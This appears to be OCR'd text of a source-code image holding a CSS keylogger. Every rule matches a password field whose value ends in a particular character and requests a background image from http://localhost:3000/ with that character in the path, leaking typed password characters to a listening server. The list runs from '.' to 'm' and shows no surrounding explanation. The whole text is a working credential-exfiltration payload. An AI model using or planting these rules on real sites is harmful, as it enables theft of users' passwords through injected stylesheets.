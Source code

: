 > input[type="password"][value$="."] { background-image: url("http://localhost:3000/."); }
> input[type="password"][value$="/"] { background-image: url("http://localhost:3000/%2F"); }
> input[type="password"][value$="0"] { background-image: url("http://localhost:3000/0"); }
> input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }
> input[type="password"][value$="2"] { background-image: url("http://localhost:3000/2"); }
> input[type="password"][value$="3"] { background-image: url("http://localhost:3000/3"); }
> input[type="password"][value$="4"] { background-image: url("http://localhost:3000/4"); }
> input[type="password"][value$="5"] { background-image: url("http://localhost:3000/5"); }
> input[type="password"][value$="6"] { background-image: url("http://localhost:3000/6"); }
> input[type="password"][value$="7"] { background-image: url("http://localhost:3000/7"); }
> input[type="password"][value$="8"] { background-image: url("http://localhost:3000/8"); }
> input[type="password"][value$="9"] { background-image: url("http://localhost:3000/9"); }
> input[type="password"][value$=":"] { background-image: url("http://localhost:3000/%3A"); }
> input[type="password"][value$=";"] { background-image: url("http://localhost:3000/%3B"); }
> input[type="password"][value$="<"] { background-image: url("http://localhost:3000/%3C"); }
> input[type="password"][value$="="] { background-image: url("http://localhost:3000/%3D"); }
> input[type="password"][value$=">"] { background-image: url("http://localhost:3000/%3E"); }
> input[type="password"][value$="?"] { background-image: url("http://localhost:3000/%3F"); }
> input[type="password"][value$="@"] { background-image: url("http://localhost:3000/%40"); }
> input[type="password"][value$="A"] { background-image: url("http://localhost:3000/A"); }
> input[type="password"][value$="B"] { background-image: url("http://localhost:3000/B"); }
> input[type="password"][value$="C"] { background-image: url("http://localhost:3000/C"); }
> input[type="password"][value$="D"] { background-image: url("http://localhost:3000/D"); }
> input[type="password"][value$="E"] { background-image: url("http://localhost:3000/E"); }
> input[type="password"][value$="F"] { background-image: url("http://localhost:3000/F"); }
> input[type="password"][value$="G"] { background-image: url("http://localhost:3000/G"); }
> input[type="password"][value$="H"] { background-image: url("http://localhost:3000/H"); }
> input[type="password"][value$="I"] { background-image: url("http://localhost:3000/I"); }
> input[type="password"][value$="J"] { background-image: url("http://localhost:3000/J"); }
> input[type="password"][value$="K"] { background-image: url("http://localhost:3000/K"); }
> input[type="password"][value$="L"] { background-image: url("http://localhost:3000/L"); }
> input[type="password"][value$="M"] { background-image: url("http://localhost:3000/M"); }
> input[type="password"][value$="N"] { background-image: url("http://localhost:3000/N"); }
> input[type="password"][value$="O"] { background-image: url("http://localhost:3000/O"); }
> input[type="password"][value$="P"] { background-image: url("http://localhost:3000/P"); }
> input[type="password"][value$="Q"] { background-image: url("http://localhost:3000/Q"); }
> input[type="password"][value$="R"] { background-image: url("http://localhost:3000/R"); }
> input[type="password"][value$="S"] { background-image: url("http://localhost:3000/S"); }
> input[type="password"][value$="T"] { background-image: url("http://localhost:3000/T"); }
> input[type="password"][value$="U"] { background-image: url("http://localhost:3000/U"); }
> input[type="password"][value$="V"] { background-image: url("http://localhost:3000/V"); }
> input[type="password"][value$="W"] { background-image: url("http://localhost:3000/W"); }
> input[type="password"][value$="X"] { background-image: url("http://localhost:3000/X"); }
> input[type="password"][value$="Y"] { background-image: url("http://localhost:3000/Y"); }
> input[type="password"][value$="Z"] { background-image: url("http://localhost:3000/Z"); }
> input[type="password"][value$="["] { background-image: url("http://localhost:3000/%5B"); }
> input[type="password"][value$="\\"] { background-image: url("http://localhost:3000/%5C"); }
> input[type="password"][value$="]"] { background-image: url("http://localhost:3000/%5D"); }
> input[type="password"][value$="^"] { background-image: url("http://localhost:3000/%5E"); }
> input[type="password"][value$="_"] { background-image: url("http://localhost:3000/_"); }
> input[type="password"][value$="`"] { background-image: url("http://localhost:3000/%60"); }
> input[type="password"][value$="a"] { background-image: url("http://localhost:3000/a"); }
> input[type="password"][value$="b"] { background-image: url("http://localhost:3000/b"); }
> input[type="password"][value$="c"] { background-image: url("http://localhost:3000/c"); }
> input[type="password"][value$="d"] { background-image: url("http://localhost:3000/d"); }
> input[type="password"][value$="e"] { background-image: url("http://localhost:3000/e"); }
> input[type="password"][value$="f"] { background-image: url("http://localhost:3000/f"); }
> input[type="password"][value$="g"] { background-image: url("http://localhost:3000/g"); }
> input[type="password"][value$="h"] { background-image: url("http://localhost:3000/h"); }
> input[type="password"][value$="i"] { background-image: url("http://localhost:3000/i"); }
> input[type="password"][value$="j"] { background-image: url("http://localhost:3000/j"); }
> input[type="password"][value$="k"] { background-image: url("http://localhost:3000/k"); }
> input[type="password"][value$="l"] { background-image: url("http://localhost:3000/l"); }
> input[type="password"][value$="m"] { background-image: url("http://localhost:3000/m"); }